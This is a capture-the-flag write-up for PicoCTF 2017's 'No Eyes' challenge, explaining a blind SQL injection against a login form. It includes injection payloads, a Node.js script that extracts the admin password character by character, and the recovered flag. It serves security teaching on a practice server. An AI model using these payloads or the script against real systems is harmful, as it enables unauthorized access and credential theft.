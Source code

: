 # PicoCTF2017
## Writeup for No Eyes

    The http://shell2017.picoctf.com:16012/ isn't really me much, but you can still get the admin password, right?
    
And a quick look at the hints:

    Sometimes an error message can be just as useful.
    
The website visibly has nothing but a login page.

So let's try some error messages. First, We'll login with no information at all.

    User not Found.

Okay, so it looks like the program separately checks for username and password. To confirm this, We'll login with my username as "admin" and my password as some random characters.

    Incorrect Password.
    
Great! Now let's try some basic SQL injection to see what happens.  
We'll enter the username as something random, use an ending single quote, throw in a OR 1=1, then comment off the rest. Like this:  

    abcdef' OR 1=1 -- 

This means that, if our SQL injection is valid, the username will return valid. It will return valid because anything combined with an OR 1=1 would logically return true. After logging in with this, we get a very important error message: 

    Incorrect Password.

Why is this important? Because this means that the username query returned true, and therefore our SQL injection worked. If the website returned "User not Found", then the SQL injection would not have worked.  

The next thing we'll do is enter some code that will break the SQL injection in hopes of getting a specific error message. To do that, we can throw in an ending single quote, but not comment off the rest. For the username, we can literally just type:  

    test' 
    
And that gives us the error:  

    There Was An Error With Your Request:
    select * from users where user = 'test'';

Great! This tells us that the databse we want to pull from is named "users", and the field for username is "user". Using that naming system, we can assume that the field for password is "pass".  

The next step is to find out what database engine they use for SQL. Different SQL database engines have different methods. Because the last question used sqlite, I kind of just guessed they would use sqlite for this one as well. To confirm, I ran a simple union that would work with sqlite. Google gives us this nice page: (https://sqlite.org/lang_corefunc.html)[https://sqlite.org/lang_corefunc.html].  

Remember that we are looking for a "Incorrect Password" error message, because that would mean that the username query returned true. To test if the database engine is sqlite, I used this as the username:  

    test' and 1=0 union all select * from users where substr(user,1,3)="adm" -- 
    
And we get the error message of "Incorrect Password". So let's break this down. Before the union, we pass in a username of test combined with an and 1=0. Because 1 will never equal 0, the first part of the injection will not give any results. This is important because if the first part of the injection did return a result, then the sql code would always pass no matter what is after the union. We only want the sql code to pass if the second part of the code passes. So essentialy, we are unioning nothing with a query that will find if the first 3 letters of any users username is "adm" (the first 3 letters of admin), and if that returns a result, then we will get a "Incorrect Password" error, and therefore proves that the first part is true.  

I'm sure you can see where this is going... Instead of checking the substring of the username, we can check the substring of the password. We can start with substr(pass,1,1)="some letter", and guess until we get an "Incorrect Password". Once we get an incorrect password, we know what the first letter is, then we can move onto substr(pass,1,2)="two letters". So on and so forth. You could go through the painful process of trying to manually guess all the letters (which I ashamedly did...) but for the sake of this writeup, let's write a program that will do it for us.  

I'm a JavaScript and Node.js fan. This code is written in JavaScript, but is well commented so it should be understandable for any programmer. Before writing a program however, we need to find out what data to post and where. Viewing the source of the web page, I found this for the form:  

    <form class="form-signin" method="post">
        <h4>Welcome back.</h4>
        <input type="text" name="username" class="form-control input-sm chat-input" placeholder="username" />
        </br>
        <input type="text" name="password" class="form-control input-sm chat-input" placeholder="password" />
        </br>
        <div class="wrapper">
            <span class="group-btn">     
                <button class="btn btn-primary btn-md" type="submit">login</button>
            </span>
        </div>
    </form>
    
So the username has the name "username", the password has the name "password", and the location of the post is just root (/). Now, let's write the program.  

    // To let us use constants and lets. If you are not using JavaScript, this is irrelevant
    'use strict'

    // Request is our package for sending post requests with our login data.
    const request = require('request')
    const URL = 'http://shell2017.picoctf.com:16012/'

    // We make a string of all characters Iwe think will be in the password. We then split it by nothing to make it into an array.
    // const acceptableCharacters = 'abcdefghijklmnopqrstuvwxzyABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890_[](){}'.split('')
    // These characters took trial and error to get. I started with only lowercase letters, when that didn't give me what
    // I wanted, I added numbers and underscores. Luckily, that was enought to get the flag.
    const acceptableCharacters = 'abcdefghijklmnopqrstuvwxzy1234567890_'.split('')

    /*
     * Here is our logic:
     * We will send a request with the password starting at one letter.
     * Whichever request is successful will build off of what it sent
     */
    for (let i = 0; i < acceptableCharacters.length; i++) {
      makePost(acceptableCharacters[i])
    }

    // Sends a post with the current guess. If the guess is successful, it logs the guess,
    // then makes more posts with letters added onto that guess.
    function makePost (guess) {
      request.post({
        url: URL,
        form: { // I got the name of the fields to be sent by viewing the source of the login page, and checking the "name" option of the textboxes.
          username: 'test\' and 1=0 union all select * from users where substr(pass,1,' + guess.length + ')="' + guess + '" -- ',
          password: ''
        }
      }, function (err, res, body) {
        if (isValidPost(body)) {
          console.log(guess)
          for (let i = 0; i < acceptableCharacters.length; i++) {
            makePost(guess + acceptableCharacters[i])
          }
        }
      })
    }

    // Determines if the post is valid by checking if the response string contains the words "Incorrect Password"
    // However, when a user isn't found, the error message is "User not found", so I shortened the words to search for
    // down to just "Inco"
    function isValidPost (res) {
      if (res) {
        return res.indexOf('Inco')>-1
      } else {
        // If there is no reason, the server probably crashed or something.
        console.log('Timeout. Try again.')
      }
    }

After letting that code run for a good minute or so, I get the following:  

    n
    no
    not
    not_
    not_a
    not_al
    not_all
    not_all_
    not_all_e
    not_all_er
    not_all_err
    not_all_erro
    not_all_error
    not_all_errors
    not_all_errors_
    not_all_errors_s
    not_all_errors_sh
    not_all_errors_sho
    not_all_errors_shou
    not_all_errors_shoul
    not_all_errors_should
    not_all_errors_should_
    not_all_errors_should_b
    not_all_errors_should_be
    not_all_errors_should_be_
    not_all_errors_should_be_s
    not_all_errors_should_be_sh
    not_all_errors_should_be_sho
    not_all_errors_should_be_show
    not_all_errors_should_be_shown
    not_all_errors_should_be_shown_
    not_all_errors_should_be_shown_5
    not_all_errors_should_be_shown_59
    not_all_errors_should_be_shown_599
    not_all_errors_should_be_shown_599b
    not_all_errors_should_be_shown_599bf
    not_all_errors_should_be_shown_599bfc
    not_all_errors_should_be_shown_599bfc4
    not_all_errors_should_be_shown_599bfc4e
    not_all_errors_should_be_shown_599bfc4ee
    not_all_errors_should_be_shown_599bfc4ee4
    not_all_errors_should_be_shown_599bfc4ee41
    not_all_errors_should_be_shown_599bfc4ee419
    not_all_errors_should_be_shown_599bfc4ee4197
    not_all_errors_should_be_shown_599bfc4ee4197f
    not_all_errors_should_be_shown_599bfc4ee4197fd
    not_all_errors_should_be_shown_599bfc4ee4197fdc
    not_all_errors_should_be_shown_599bfc4ee4197fdc5
    not_all_errors_should_be_shown_599bfc4ee4197fdc5e
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed9
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed936
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed9361
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4f
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4f5
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4f51
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4f515
    
Obviously the last one will be our flag!
